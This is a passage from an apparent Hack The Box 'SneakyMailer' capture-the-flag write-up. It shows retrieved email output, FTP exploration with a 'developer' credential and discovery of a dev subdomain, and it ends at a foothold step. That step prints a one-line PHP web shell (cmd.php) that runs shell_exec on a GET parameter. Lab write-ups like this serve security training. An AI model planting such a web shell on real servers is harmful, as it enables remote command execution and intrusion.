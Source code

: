 ```
t </p></div></body></html>=

--_21F4C0AC-AA5F-47F8-9F7F-7CB64B1169AD_--

[+] Fetching 63...
To: low@debian
From: Paul Byrd <paulbyrd@sneakymailer.htb>
Subject: Module testing
Message-ID: <4d08007d-3f7e-95ee-858a-40c6e04581bb@sneakymailer.htb>
Date: Wed, 27 May 2020 13:28:58 -0400
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101
 Thunderbird/68.8.0
MIME-Version: 1.0
Content-Type: text/plain; charset=utf-8; format=flowed
Content-Transfer-Encoding: 7bit
Content-Language: en-US

Hello low


Your current task is to install, test and then erase every python module you
find in our PyPI service, let me know if you have any inconvenience.

```

One has UID 61, the other had UID 63. Sneaky bastard.

### FTP Service

Armed with the `developer` credential, let's see if we can explore the FTP service. Looks like `developer` is the only account allowed to log in to the FTP service.

{% include image.html image_alt="a5661ba5.png" image_src="/f6d69e00-f868-46b9-95db-9ecf8f2ea495/a5661ba5.png" %}

The content of the directory looks strangely familiar.

{% include image.html image_alt="e30e5fb3.png" image_src="/f6d69e00-f868-46b9-95db-9ecf8f2ea495/e30e5fb3.png" %}

Perhaps there's another subdomain or vhost `dev.sneakycorp.htb`?

{% include image.html image_alt="3bc114d6.png" image_src="/f6d69e00-f868-46b9-95db-9ecf8f2ea495/3bc114d6.png" %}

Indeed. And look at the sidebar; the link to the Registration page is there!

## Foothold

Time to see if `developer` can plant a web shell or PHP backdoor!

<div class="filename"><span>cmd.php</span></div>

```
<?php echo shell_exec($_GET[0]); ?>
```


[1]: https://www.hackthebox.eu/home/machines/profile/262
[2]: https://www.hackthebox.eu/home/users/profile/106709
[3]: https://www.hackthebox.eu/